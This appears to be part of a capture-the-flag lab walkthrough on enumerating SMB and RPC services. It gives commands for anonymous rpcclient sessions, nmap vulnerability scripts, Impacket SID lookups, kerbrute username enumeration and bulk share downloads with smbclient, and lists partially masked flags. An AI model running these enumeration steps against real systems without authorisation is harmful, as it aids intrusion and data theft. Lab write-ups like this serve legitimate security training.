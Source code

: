 **Alternative SMB Tools:**
```bash
# nbtscan for NetBIOS info
nbtscan $TARGET

# rpcclient for RPC enumeration
rpcclient -U "" -N $TARGET
# Once connected:
rpcclient $> enumdomusers
rpcclient $> enumdomgroups
rpcclient $> queryuser 500
rpcclient $> getdompwinfo

# nmap SMB scripts
nmap --script=smb-enum-*,smb-vuln-* -p 139,445 $TARGET
```

When enumerating users, pay attention to descriptions and comments - administrators sometimes leave notes there:

```bash
# In rpcclient, query each user
rpcclient $> queryuser 0x1f4
rpcclient $> queryuser 0x1f5
# Look for: User Name, Full Name, Description, Comment fields
```

**FLAG{P***************4}** - Found in admin user description field

### Step 2.2: Advanced User Enumeration

Sometimes users themselves can be interesting:

```bash
# Enumerate all users including potentially hidden ones
net rpc user -I $TARGET -U ""

# Using lookupsid.py from Impacket
python3 /usr/share/doc/python3-impacket/examples/lookupsid.py guest@$TARGET

# Kerbrute for domain users (if domain is present)
kerbrute userenum --dc $TARGET -d DOMAIN.local /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

Look for unusual usernames - sometimes they're not standard names:
**FLAG{M***8}** - Found as an actual username

### Step 2.3: Accessing SMB Shares

Let's explore accessible shares:

```bash
# Connect to each share
smbclient //$TARGET/Public -N
smb: \> ls -la
smb: \> recurse on
smb: \> prompt off
smb: \> mget *

# Check each share systematically
for share in $(smbmap -H $TARGET | grep READ | awk '{print $1}'); do
    echo "=== Checking $share ==="
    smbclient //$TARGET/$share -N -c "ls"
done
```
